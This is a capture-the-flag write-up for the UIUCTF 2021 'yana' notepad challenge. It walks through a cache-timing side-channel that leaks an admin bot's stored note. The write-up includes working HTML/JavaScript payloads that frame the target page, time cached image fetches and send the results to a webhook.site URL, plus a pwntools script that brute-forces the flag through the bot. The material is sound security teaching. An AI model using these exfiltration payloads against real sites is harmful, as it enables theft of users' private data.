








# UIUCTF 2021: yana - Client-side exfiltration (Web)

[UIUCTF CTF](https://uiuc.tf/) is hosted by the [Special interest Group for Computer
Security: SIGPwny](https://sigpwny.com/) - at the University of Illinois in Urbana-Champaign, and has been around since 2015.
The 2021 edition had challenges ranging from beginner to hardcore levels, and a lot of fun involved.



# Challenge: Yana - Yet Another Notepad App

 ```"I made a note taking website. Can you get the admin's note?"```

In this challenge, created by [arxenix](https://twitter.com/ankursundara), we are presented with a very simple notepad app. I made "6th blood" here on 21 total solves, which was a great result for my n00b skill level.



It has basically 2 features:
* Save a unique local note (first textbox and button)
* Search for a string in this local note (second textbox and button).
* If the search string is part of the local note, it shows a green ball, otherwise, it shows a red ball (forgive my pornographic "brazilian-native english").

It has also an admin bot, which receives a URL through a socket and runs it (nc yana-bot.chal.uiuc.tf 1337).

```bash
$ nc yana-bot.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Please send me a URL to open.
https://uiuc.tf/challenges
Loading page https://uiuc.tf/challenges.
^C
```

The objective is to somehow exfiltrate the note from the admin which, obsviously, has the flag.

## Code Analysis: Yana site

The Yana site is fully static, so it's a client-side analysis (boring stuff deleted to save your time).

```html
<html lang="en"><head>
    
    <title>YANA</title>
    <style>/* Nothing useful here (for this challenge). Go find a webdesign write-up */</style>
  </head>
  <body>
    <div id="wrapper">
      <h1>YANA</h1>
      <h2>yet another notepad app</h2>
      <form id="note" method="post" action="https://chal.yana.wtf/note">
        <textarea name="note"></textarea>
        <br>
        <button type="submit">save</button>
      </form>
      <form id="search" method="get" action="https://chal.yana.wtf/">
        <input type="text" name="search">
        <br>
        <button type="submit">search</button>
      </form>
      <div id="output">found! <br></div>
    </div>
    <script>
      const noteForm = document.getElementById("note");
      noteForm.onsubmit = (e) => {
        e.preventDefault();
        window.localStorage.setItem("note", new FormData(noteForm).get("note"));
      };

      const searchForm = document.getElementById("search");
      const output = document.getElementById("output");
      searchForm.onsubmit = (e) => {
        e.preventDefault();
        const query = new FormData(searchForm).get("search") ?? "";
        document.location.hash = query;
        search();
      };

      function search() {
        const note = window.localStorage.getItem("note") ?? "";
        console.log(`note: ${note}`);
        const query = document.location.hash.substring(1);
        console.log(`query: ${query}`);
        if (query) {
          if (note.includes(query)) {
            console.log('found');
            output.innerHTML =
              'found! <br/></img>';
          } else {
            console.log('not found');
            output.innerHTML =
              'nope.. <br/></img>';
          }
        }
      }
      search();
    </script>
</body></html>
```

### Summary
* Configure the button events (save and search)
* For saving button: save the note in the browser localStorage (overwrite any last note).
* For searching button: put the search string on the url hash. If you put "uiuctf{a", the url becomes https://chal.yana.wtf/#uiuctf{a.
* Call the search everytime the page is loaded:
    * Recover the search string from the hash value of the URL (hash explained above).
    * Recover the note from the localStorage.
    * Check if the note includes the search string.
    * Insert an image tag with the result of the search:
        * If found, show the image: https://sigpwny.com/uiuctf/y.png
        * If not found, show the image: https://sigpwny.com/uiuctf/n.png


    
Simple as that. In the image above, a fake flag is simulated to check the behaviour of the page. At this point, we have an important information: if the search string on the URL hash has part of the flag, the browser will show the "found!" mesage and image and there may be a possibility of brute-forcing char by char.

We still don't know how to use it, but let's keep it in our hearts.

## Code Analysis: The Bot

In challenges like this, we communicate with a bot that has a headless browser navigating to our provided URL, were we usually try to inject some evil withcraft and get the flag.

Let's deep dive on it.

```javascript
/*
NOTE: this is the script that the admin bot runs to visit your provided URL
it not required to solve the challenge, but is provided for reference & for you to help test/debug your exploit
*/

const { chromium } = require('playwright-chromium');
const fs = require('fs');
const net = require('net');

const FLAG = fs.readFileSync('/flag.txt', {encoding: 'utf-8'});
// matches regex: uiuctf{[a-z0-9_]}

(async function () {
  const browser = await chromium.launch({
    executablePath: "/playwright/chromium-878941/chrome-linux/chrome",
    logger: {
      isEnabled: () => true,
      log: (name, severity, message, _args) => console.log(`chrome log: [${name}/${severity}] ${message}`)
    }
  });

  function ask_for_url(socket) {
    socket.state = 'URL';
    socket.write('Please send me a URL to open.\n');
  }

  async function load_url(socket, data) {
    let url = data.toString().trim();
    console.log(`checking url: ${url}`);
    if (!url.startsWith('http://') && !url.startsWith('https://')) {
      socket.state = 'ERROR';
      socket.write('Invalid scheme (http/https only).\n');
      socket.destroy();
      return;
    }
    socket.state = 'LOADED';

    // "incognito" by default
    const context = await browser.newContext();
    const page = await context.newPage();
    await page.goto("https://chal.yana.wtf");
    await page.fill('#note > textarea', FLAG);
    await page.click('#note > button');
    await page.waitForTimeout(500);
    await page.goto('about:blank');
    await page.waitForTimeout(500);
    socket.write(`Loading page ${url}.\n`);
    await page.goto(url);
    setTimeout(() => {
      try {
        page.close();
        socket.write('timeout\n');
        socket.destroy();
      } catch (err) {
        console.log(`err: ${err}`);
      }
    }, 60000);
  }

  var server = net.createServer();
  server.listen(1338);
  console.log('listening on port 1338');

  server.on('connection', socket => {
    socket.on('data', data => {
      try {
        if (socket.state == 'URL') {
          load_url(socket, data);
        }
      } catch (err) {
        console.log(`err: ${err}`);
      }
    });

    try {
      ask_for_url(socket);
    } catch (err) {
      console.log(`err: ${err}`);
    }
  });
})();
```

### Summary
* Gets the flag from ENV.
* Receives the URL via Socket from bad people like you.
* Creates a new incognito page.
* Navigate to the app URL: https://chal.yana.wtf
* Save the flag as a note
* Navigate to a blank page (about:blank)
* Navigate to the URL you provided
* Comment says the flag matches regex: **uiuctf{[a-z0-9_]}**
* Allows the browser to live 60 seconds (Am I not merciful??), and the times out and destroy the browser instance.

By now we know that our provided URL is loaded in the same browser page of the saved note. The flag is saved in its localStorage, but we can't just access it from a different domain. We need to use the yana own page to do it, but they don't even leave room for XSS.

## Setting up a basic attack structure

If we just send their own URL, without a simple XSS or external link, we can't exfiltrate any information, because there is no visible XSS or link or whatever we can use for this.
We obvisviously have to send another URL.

I started with a PHP page (yana.php) in my local humble apache, serving through ngrok.

```bash
$ ./ngrok http 80

ngrok by @inconshreveable

Session Status online

Account        nhe@gmail.com (Plan: Free) 
Version        2.3.40              
Region         United States (us)   
Web Interface  http://127.0.0.1:4040

Forwarding     http://2cd87fccf2d0.ngrok.io -> http://localhost:80
Forwarding     https://2cd87fccf2d0.ngrok.io -> http://localhost:80
 
Connections    ttl     opn     rt1     rt5     p50     p90
               0       0       0.00    0.00    0.00    0.00
```

Let's start with the basics: inserting a js fetch and a image link the [webhook.site](https://webhook.site), which we're using for request capture/exfiltration (Just enter the site and it'll give a URL to use). Let's see if the bot can send something to us.

```html
<html>
    <head>
        <script>
            fetch('https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/fetching', {'mode': 'no-cors'});
        </script>
    </head>
    <body>
        
    </body>
</html>
```

And now we send our very dangerous URL to the bot and wait for the delivery.

```bash
$ nc yana-bot.chal.uiuc.tf 1337
== proof-of-work: disabled ==
Please send me a URL to open.
https://2cd87fccf2d0.ngrok.io/yana.php
Loading page https://2cd87fccf2d0.ngrok.io/yana.php.
timeout
```



We got them both as expected. Let's now connect the things, by playing a little bit with an iframe pointing to the yana app:

```html
<html>
    <head>
        <script>
            fetch('https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/fetching', {'mode': 'no-cors'});
        </script>
    </head>
    <body>
        <!-- New Stuff -->
        <iframe id="ifr" src="https://chal.yana.wtf/#uiuctf{a"></iframe><br/>
        
    </body>
</html>
```

This will make the yana app search for "uiuctf{a" in the admin note and return the answer (found or not) but... how to get the answer? (Nothing different captured here).

Since we're on a different domain, browsers make their best to avoid evil sites like yours from recovering information from a innocent sites by using iframes.

## Cache feelings

After frying my brain (I think I ended the challenge like 30 years older), I thought about caching as a possible attack vector.

When it loads a new browser instance, the cache is empty and when the yana page makes the search, it loads either the **y.png** or the **n.png**. If the hash is part of the flag, the y.png file will be cached after the frame finishes loading.

The first (dumb) idea was to try fetching from the cache, without loading from the origin. I tried using the "only-if-cached" option of javascript fetch.

https://developer.mozilla.org/en-US/docs/Web/API/Request/cache

```text
only-if-cached — The browser looks for a matching request in its HTTP cache.
If there is a match, fresh or stale, it will be returned from the cache.
If there is no match, the browser will respond with a 504 Gateway timeout status.
```

The idea didn't work because.. I didn't read the next paragraph :@ (lazy me).

```text
The "only-if-cached" mode can only be used if the request's mode is "same-origin". Cached redirects will be followed if the request's redirect property is "follow" and the redirects do not violate the "same-origin" mode.
```

So I couldn't use only-if-cached to fetch from a different subdomain. I took the exact error message above in my face, when testing locally.

## Side-channel attack

The caching idea was still good. If the y.png is on the cache, loading it wouldn't be at least a little faster?

It's an easy test on the hipothesis. Let's check 2 things:
* After loading the iframe with an obsviously-non-flag substring (#XXXXX), how long it takes to load the y.png?
* After loading the iframe with an obsviously-flag substring (#uiuctf), how long it takes to load the y.png?

Another important thing: since we're counting on the cache, we need a fresh browser instance, empty-cached, on each check.

Let's prepare our payload for check 1.

```html
<html>
    <head>
        <script>
            // No need anymore
            // fetch('https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/fetching', {'mode': 'no-cors'});

            function runTest(param) {
                // Wait for the iframe to load (~500ms)
                setTimeout(() => {

                    // image to load for correct guess
                    img_url = 'https://sigpwny.com/uiuctf/y.png';

                    // image to report (exfiltration)
                    wh_url = 'https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba/';

                    var start = window.performance.now();

                    // Load the 'Y' image
                    fetch(img_url, {'mode': 'cors', 'cache': 'force-cache'}).then(response => {
                        var end = window.performance.now();
                        var timing = end - start;

                        // Exfiltrate load time for the image
                        fetch(wh_url + '/yanastats?status=' + response.status + '&time=' + timing + '&key=' + encodeURIComponent(param));
                    });
                    }, 500);
            }
        </script>
    </head>
    <body>
        <!-- Changed hash - non-flag string -->
        <iframe id="ifr" src="https://chal.yana.wtf/#XXXXX"></iframe><br/>
        <script>
            runTest("XXXXX");
        </script>
        <!-- No need anymore -->
        <!--  -->
    </body>
</html>
```
### Summary
* Waits for the iframe to load
* Get time (start)
* Fetch the **y.png** image using "force-cache" option.
* Get time again (end) and calculate the time elapsed.
* Send the timing info to our webhook endpoint.

After sending to the bot, we receive the answer: 76 ms.



When trying a few more times, I perceive there is a variation, but in most of the rounds, the loading time is between **30-50 ms**.

Let's try the same with the known start of the flag: **uiuctf{**

```html
<!-- Changed hash to know flag substring -->
<iframe id="ifr" src="https://chal.yana.wtf/#uiuctf{">
```

Now close your eyes, pray to Crom and Mitra, and call the bot!



Now we're on the game! The loading time when there is a correct flag substring consistently around **3 ms**. We have a feasible timing attack!

## Brute-forcing the flag

Now we have a way to find the next character by testing every possible char after the flag start, "uiuctf{", following the regex they gave us in the bot source: "uiuctf{[a-z0-9_]}". 
It's just 39 attempts per char position so... feasible enough, but you don't wanna test every char in every position by hand, so let's automate sending the URL to the bot:

```python
import time
from pwn import *
from multiprocessing import Pool

start = "https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{"

def attack_list(charlist):

    # Test every char in the charlist
    for ch in charlist:
        # Connect to the socket to send the URL
        r = remote('yana-bot.chal.uiuc.tf', 1337)
        url = start + ch
        r.sendafter('Please send me a URL to open.\n', url + '\n')
        log.info(r.recvline())
        time.sleep(1)

# Divided the charlist in groups to paralellize
charlists = [
    '_0123456', 
    '789aeiou', 
    'Xbcdfghj',
    'klmnpqrs',
    'tvwxyz}'
]

if __name__ == '__main__':
    with Pool(5) as p:
        print(p.map(attack_list, charlists))
```

### Summary
* Use pwntools to comunicate with the bot
* Send our yana.php, but adding the hash of the test (se we can modify the iframe address in the page)
* Divides the work in 5 threads, because one thread makes it terribly slow (sorry admins!) and we have a lot of waiting time related to the timing attack.
    * Each thread tests a separate group of chars

This brute-force tests all chars for a specific position. Since the report (correct char) is not recovered by this Python app, including the next char (in the "start" variable) is kept here as a manual task.

I started writing a remote coordinator to receive the timing report and give the results to the python brute but... it was too much work.

Now let's change the HTML, so it changes the iframe URL hash according the the hash we are sending in the yana.php URL, and reporting only on correct chars, since we are now confident of loading times (I was reporting everything I couldn't take the eyes of the monitor at first. Dumb bruting).

```html
<!-- Final HTML Payload -->
<html>
    <head>
        <script>
            function runTest(param) {
                // Wait for the iframe to load (500ms)
                setTimeout(() => {

                // image to load for correct letter 
                img_url = 'https://sigpwny.com/uiuctf/y.png';

                // image to report (exfiltration)
                wh_url = 'https://webhook.site/8f324ab5-a556-4328-89bc-e9d606a390ba';

                var start = window.performance.now();

                // Load the 'Y' image
                fetch(img_url, {'mode': 'cors', 'cache': 'force-cache'}).then(response => {
                    var end = window.performance.now();
                    var timing = end - start;

                    // Avg timing cached: < 10 ms
                    // Avg timing non-cached: > 30 ms
                    // Report only the correct char found
                    if (timing < 10) {
                        fetch(wh_url + '/yanastats?status=' + response.status + '&time=' + timing + '&key=' + encodeURIComponent(param));
                    }
                });
                }, 500);
            }
        </script>
    </head>
    <body>
        <iframe id="ifr" src="about:blank"></iframe><br/>
        <script>
            // Use the hash to get the test and send to the iframe
            const param = window.location.hash.substring(1);

            // Load iframe with the guess https://chal.yana.wtf/#uiuctf{<next char>
            document.getElementById("ifr").src = "https://chal.yana.wtf/#" + param;

            // Check the timing of the 'y' image
            runTest(param);
        </script>
    </body>
</html>
```

Think positive and let it go.

```bash
$ python attack.py 
Opening connection to yana-bot.chal.uiuc.tf on port 1337
Opening connection to yana-bot.chal.uiuc.tf on port 1337
Opening connection to yana-bot.chal.uiuc.tf on port 1337
Opening connection to yana-bot.chal.uiuc.tf on port 1337
[+] Opening connection to yana-bot.chal.uiuc.tf on port 1337: Done
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{X.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{k.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{7.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{_.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{t.
[/.......] Opening connection to yana-bot.chal.uiuc.tf on port 1337
# Another bunch of trash lines
```

After some seconds, we get the report:



Found the **y** as the first char! (timing < 10 ms). We can stop the brute, include the 'y' in the start variable, and go again.

```python
start = "https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{y"
```

Go, go, go!

And now we got:

```
uiuctf{y0
```

## 0wned

After some time, the GIANT FLAG STRING SIZE made me rethink the "manual brute-force" strategy, but the laziness had already taken over me. I just kept going for some more minutes, until I had it all.



```uiuctf{y0u_m4y_w4nt_2_d3let3_y0ur_gh_p4g3s_s1t3_or_r1sk_0thers_d01ng_4_crtsh_lo0kup}```

Great challenge! I learned a lot in the process.

## The After Party

In the CTF Discord Server, arxenix told us the challenge would be even harder. 

The cache side-channel attack was the intended solution, but we would need to create a Github Page to take advantage of same-origin to make the cache attack possible. 
Luckily for me, due to chromium caching strategy, being on a different domain didn't break my plan.

But it was an awesome idea with some more learning to take home.

# References

* CTF Time Event: https://ctftime.org/event/1372
* UIUCTF CTF: https://uiuc.tf/
* SIGPwny: https://sigpwny.com/
* arxenix - the challenge author: https://twitter.com/ankursundara
* Repo with the artifacts discussed here: https://github.com/Neptunians/uiuctf-2021-yana
* Team: [FireShell](https://fireshellsecurity.team/)
* Team Twitter: [@fireshellst](https://twitter.com/fireshellst)
* Follow me too :) [@NeptunianHacks](twitter.com/NeptunianHacks)